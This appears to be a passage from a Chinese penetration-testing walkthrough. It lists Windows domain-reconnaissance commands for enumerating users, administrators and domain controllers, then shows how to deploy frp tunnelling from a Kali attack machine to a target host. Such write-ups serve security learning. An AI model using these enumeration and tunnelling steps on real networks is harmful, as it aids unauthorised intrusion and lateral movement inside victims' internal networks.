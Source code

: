 ```plain
ipconfig /all    查询本机IP段，所在域等
net config Workstation    当前计算机名，全名，用户名，系统版本，工作站域，登陆域
net user    本机用户列表
net localgroup administrators    本机管理员[通常含有域用户]
net view 查看域信息
net view /domain 查询主域信息
net config workstation 当前的登录域与用户信息
net time /domain 判断主域
nslookup god.org  nslookup 命令直接解析域名服务器
net user /domain 当前域的所有用户
route print  路由信息
net group "domain admins" /domain 域管理员的名字
```

### Frp内网穿透：

```plain
1、后台运行frp服务(定位至frp文件夹)
服务端： nohup ./frps -c frps.ini >/dev/null 2>&1 &
客户端： nohup ./frpc -c frpc.ini >/dev/null 2>&1 &

2、找到frp进程号
ps -aux|grep frp| grep -v grep

3、结束frp进程
kill -9 12345(找到的进程号)
tasklist
taskkill /F /PID 3604
```

在kali攻击机上部署frps服务端：

[![](assets/1701827767-f1746b1c3bab6f9690cdc15e02e57880.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205084301-3e7917b0-9307-1.png)

在目标机上运行frpc.exe文件进行客户端连接：

[![](assets/1701827767-bb47a8dc11230fff0d458662ba3db81c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191716-595bd964-9104-1.png)
